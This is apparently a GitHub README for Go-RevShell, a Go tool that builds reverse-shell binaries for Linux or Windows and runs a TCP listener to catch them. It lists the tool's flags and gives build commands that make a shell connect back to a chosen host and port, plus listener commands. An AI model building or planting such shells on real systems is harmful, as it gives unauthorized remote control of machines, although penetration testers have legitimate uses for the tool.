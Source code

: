 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a tcp listener. PTY RevShell not ready.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)


## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
  -t string
        Template to use to generate the reverse shell. Available : "native", "tty". (default "native")
```

### Build a reverse shell

* Build a native shell for linux server : ```go run main.go -s linux```
* Build a TYY shell for linux server : ```go run main.go -t tty -s linux```
* Build a TYY shell for linux server, with client ip and port : ```go run main.go -t tty -s linux -i myhost.com -p 1111```
* Build a native shell for windows server : ```go run main.go -s windows```

### Attach to reverse shell

* Listen to port 1111 ```go run main.go -l 1111```
* Listen to port 3412 ```go run main.go -l 3412```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* Fix pty shell
* More tests across different os
* Refresh and anon screenshots
* Publish package

**[`^        back to top        ^`](#)**
